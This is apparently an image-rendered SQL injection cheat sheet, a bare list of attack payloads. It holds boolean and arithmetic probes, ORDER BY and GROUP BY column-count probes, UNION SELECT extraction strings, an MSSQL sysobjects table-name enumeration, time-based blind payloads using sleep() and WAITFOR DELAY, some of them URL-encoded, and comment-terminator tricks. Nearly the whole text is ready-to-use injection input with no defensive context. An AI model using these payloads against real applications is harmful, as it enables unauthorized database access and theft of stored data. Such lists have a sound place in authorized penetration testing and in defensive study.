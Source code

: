 ```sql
%		wildcard attribute indicator

@variable	local variable
@@variable	global variable


# Numeric
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2


1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --


-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


Finding the table name


Time-Based:
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--

Comments:

#	    Hash comment
/*  	C-style comment
-- -	SQL comment
;%00	Nullbyte
`	    Backtick

```
